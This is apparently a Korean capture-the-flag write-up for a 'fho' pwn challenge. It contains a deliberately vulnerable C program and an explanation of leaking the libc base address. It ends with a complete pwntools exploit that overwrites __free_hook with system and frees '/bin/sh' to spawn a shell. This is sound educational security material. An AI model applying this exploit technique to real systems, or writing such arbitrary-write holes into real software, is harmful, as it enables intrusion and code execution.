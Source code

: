 fho 라이트업
============

## 보호기법 확인

<img width="708" height="187" alt="image" src="https://github.com/user-attachments/assets/99105e1f-a5a3-40d4-876a-460cb734a5e3" />


## 코드 분석


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

셸을 얻으려면
* 스택의 어떤 값을 읽을 수 있다
* 임의의 주소에 임의 값을 쓸 수 있다
* 임의의 주소를 해제할 수 있다



## 익스플로잇 설계

### 라이브러리의 변수/함수들의 주소

<img width="1380" height="140" alt="image" src="https://github.com/user-attachments/assets/7e079c55-b495-43b0-b418-c445f6cdb0f7" />

__free_hook, system 함수,"/bin/sh" 문자열의 오프셋을 얻어낸다.


메모리상에서 이들의 주소를 계산하려면 프로세스에 매핑된 libc 파일의 베이스 주소를 알아야 한다. 
거기에 오프셋을 더해 메모리상 주소를 구할 수 있다.   

main함수는 __libc_start_main이라는 라이브러리 함수가 호출하므로 main 함수 스택 프레임에 존재하는 반환 주소를 읽으면 
그 주소를 기반으로 libc 베이스 주소를 계산할 수 있고 이에 더해 변수와 함수들의 주소를 계산할 수 있다. 

<img width="1338" height="197" alt="image" src="https://github.com/user-attachments/assets/c80f490b-c6a3-4789-a16f-fd79bff262a0" />


### 셸 획득

__free_hook의 값을 system 함수의 주소를 덮어쓰고 "/bin/sh"를 해제해서 셸을 획득할 수 있다.


## 익스플로잇 


### 라이브러리의 변수/함수들의 주소

<img width="1332" height="281" alt="image" src="https://github.com/user-attachments/assets/d6a602d3-8346-467c-832c-7187bf7008e5" />

main함수의 반환 주소는 0x7ffff7dce1ca이고 출력해보면 오프셋은 122


### 익스플로잇 코드


```python
#!/usr/bin/env python3

from pwn import *

p = process('./fho')
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak libc base
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 122)
system = libc_base + libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
binsh = libc_base + next(libc.search(b'/bin/sh'))

slog('libc_base', libc_base)
slog('system', system)
slog('free_hook', free_hook)
slog('/bin/sh', binsh)

# [2] Overwrite `free_hook` with `system`
p.recvuntil('To write: ')
p.sendline(str(free_hook).encode())
p.recvuntil('With: ')
p.sendline(str(system).encode())

# [3] Exploit
p.recvuntil('To free: ')
p.sendline(str(binsh).encode())

p.interactive()
```

